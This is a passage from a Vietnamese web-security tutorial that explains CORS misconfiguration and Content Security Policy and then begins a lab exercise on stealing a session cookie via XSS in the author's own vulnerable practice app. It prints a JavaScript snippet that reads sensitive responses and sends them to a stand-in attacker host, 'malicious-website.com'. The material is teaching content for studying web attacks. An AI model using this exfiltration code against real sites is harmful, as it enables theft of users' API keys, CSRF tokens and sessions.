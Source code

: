      \+ Giá trị của header **Access-Control-Allow-Origin** cho ta biết rằng `vulnerable-website.com` cho phép bất kì **process** nào đến từ bất kì **origin** nào được phép truy cập vào tài nguyên của nó, kể cả origin có URL là `https://malicious-website.com` của attacker. Nếu response chứa bất kỳ dữ liệu nhạy cảm nào như API key hay CSRF token, kẻ tấn công có thể lấy được nó bằng cách chèn script này từ website của mình (`https://malicious-website.com`):
  
  ```javascript
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.send();
    
    function reqListener() {
        location='//malicious-website.com/log?key='+this.responseText;
    };                                                          
  ```
  
     \+  Website `malicious-website.com` sẽ gửi request đến `vulnerable-website.com`, bên trong request này có chứa hàm **reqListener**, hàm này sẽ thực thi khi vào được tài nguyên là **sensitive-victim-data** của `vulnerable-website.com`, đọc toàn bộ nội dung tại đó và trả về lại `malicious-website.com` thông qua GET parameter **key**.

#### 3) Content Security Policy:

- **Content Security Policy** là một reponse header cho phép admin của một website kiểm soát các tài nguyên mà user agent (thường để chỉ browser) được phép load. Từ đó ngăn chặn được các cuộc tấn công chèn script từ các origin khác như **XSS**.

- Syntax: `Content-Security-Policy: <policy-directive>; <policy-directive>`

  trong đó, `<policy-directive>` bao gồm: `<directive>` và `<value>`. Chi tiết về các directive xem tại  [đây](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy).

- Kịch bản tấn công một trang web có **Content Security Policy** yếu:

  https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/diceCTF_2_2021/Web%20Exploitation/Babier%20CSP.md.

### II. Thực Hành:

#### 1) Source code:

https://github.com/antoinenguyen-09/DVWA-From-Antoine/tree/main/XSS

#### 2) Exploit:

**a) Chiếm cookie:**

- Mỗi khi login thì trang web của chúng ta sẽ tạo ra một session cùng với một cookie tên "login". Ví dụ khi ta đăng nhập vào user **messi**:

  ![image](https://user-images.githubusercontent.com/61876488/119174179-783a2480-ba92-11eb-936d-f78f16db7b84.png)

- Vào **List of student** >> Click vào **1 ô id của 1 student bất kì** >> Chọn **Chat with this student** để gửi tin nhắn cho student đó rồi nhập payload vào:

  ![image](https://user-images.githubusercontent.com/61876488/119175870-943ec580-ba94-11eb-82dd-750631641a86.png)
